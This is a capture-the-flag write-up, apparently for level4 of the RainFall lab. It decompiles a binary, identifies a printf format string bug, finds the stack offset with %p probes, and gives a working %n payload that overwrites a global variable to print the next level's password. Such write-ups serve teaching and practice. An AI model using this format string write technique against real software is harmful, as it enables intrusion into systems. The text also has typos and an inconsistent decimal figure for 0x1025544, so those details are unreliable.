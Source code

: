 level4 exploit

   ```bahs
   ssh level4@<ip>
    System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
   RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
   No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
   level4@RainFall:~$ 
   ```

by ghidra we have :

the main call n function 

```
void main(void)

{
  n();
  return;
}
```

which call p function 

```
void n(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}



void p(char *param_1)

{
  printf(param_1);
  return;
}
```

the p function print the param_1 which is the local_20c a buffer of 520 byt 

wee need to get to the m variable globale variable which must be 16930116 to get the seystem executed 

```
### GDB Disassembly with Comments for level4 ###

# Function: main
0x080484a7 <+0>:    push   %ebp                  # Prologue
0x080484a8 <+1>:    mov    %esp,%ebp             # Setup stack frame
0x080484aa <+3>:    and    $0xfffffff0,%esp      # Align stack to 16 bytes
0x080484ad <+6>:    call   0x8048457 <n>         # Call function n()
0x080484b2 <+11>:   leave                         # Epilogue
0x080484b3 <+12>:   ret                           # Return from main

# Function: n
0x08048457 <+0>:    push   %ebp                  # Prologue
0x08048458 <+1>:    mov    %esp,%ebp             # Setup stack frame
0x0804845a <+3>:    sub    $0x218,%esp           # Allocate 536 bytes on stack for buffer
0x08048460 <+9>:    mov    0x8049804,%eax        # Load stdin (FILE*) into eax
0x08048465 <+14>:   mov    %eax,0x8(%esp)        # 3rd arg of fgets: FILE*
0x08048469 <+18>:   movl   $0x200,0x4(%esp)       # 2nd arg of fgets: size 512
0x08048471 <+26>:   lea    -0x208(%ebp),%eax      # Buffer address
0x08048477 <+32>:   mov    %eax,(%esp)            # 1st arg of fgets: buffer
0x0804847a <+35>:   call   0x8048350 <fgets@plt>  # Call fgets(buf, 512, stdin)

0x0804847f <+40>:   lea    -0x208(%ebp),%eax      # Load buffer again
0x08048485 <+46>:   mov    %eax,(%esp)            # Push buffer as arg
0x08048488 <+49>:   call   0x8048444 <p>          # Call p(buffer)

0x0804848d <+54>:   mov    0x8049810,%eax        # Load global var m into eax
0x08048492 <+59>:   cmp    $0x1025544,%eax       # Check if m == 0x1025544
0x08048497 <+64>:   jne    0x80484a5 <n+78>       # If not equal, skip next part
0x08048499 <+66>:   movl   $0x8048590,(%esp)      # Push "/bin/cat .../.pass" string
0x080484a0 <+73>:   call   0x8048360 <system@plt> # system("/bin/cat ...")
0x080484a5 <+78>:   leave                         # Epilogue
0x080484a6 <+79>:   ret                           # Return from n

# Function: p
0x08048444 <+0>:    push   %ebp                  # Prologue
0x08048445 <+1>:    mov    %esp,%ebp             # Setup stack frame
0x08048447 <+3>:    sub    $0x18,%esp            # Allocate 24 bytes on stack
0x0804844a <+6>:    mov    0x8(%ebp),%eax         # Load argument (char *str)
0x0804844d <+9>:    mov    %eax,(%esp)            # Push str to stack
0x08048450 <+12>:   call   0x8048340 <printf@plt> # printf(str)
0x08048455 <+17>:   leave                         # Epilogue
0x08048456 <+18>:   ret                           # Return from p
```

we are at **Format string attack** vulnerability we need to manipulate the printf to write to the m variable  "m == 0x1025544" // 16930112 in decimal 

what we can use :

| **Specifier** | **Meaning**                  | **Use in Exploits**                    |
|:----------|:-------------------------|:-----------------------------------|
| `%d`        | Signed decimal integer   | Leak stack/heap values             |
| `%u`        | Unsigned decimal integer | Leak memory addresses              |
| `%x`        | Hexadecimal (lowercase)  | Leak memory (common in exploits)   |
| `%X`        | Hexadecimal (uppercase)  | Same as `%x`                         |
| `%p`        | Pointer address          | Leak absolute addresses (critical) |
| `%s`        | String                   | Crash if invalid pointer (DoS)     |
| `%c`        | Character                | Rarely useful in exploits          |
| `%f`        | Floating-point           | Rarely useful                      |

here is link to find out more

<https://owasp.org/www-community/attacks/Format_string_attack>

lets test for format string vulnerability and define the offset:

```bash
python -c 'print("AAAA" + "%p "*20)' | ./level4
AAAA0xb7ff26b0 0xbffff794 0xb7fd0ff4 (nil) (nil) 0xbffff758 0x804848d 0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 
```

the 0x41414141 located at the 12th position lets conferm it :

```bash
level4@RainFall:~$ python -c 'print("AAAA" + "%12$p")' | ./level4
AAAA0x41414141
```

lets use `%n` format specifier to write the number of bytes 

Craft:

```bash
python -c 'print("\x10\x98\x04\x08" + "%16930112x%12$n")' | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

here is the cat .pass trigger 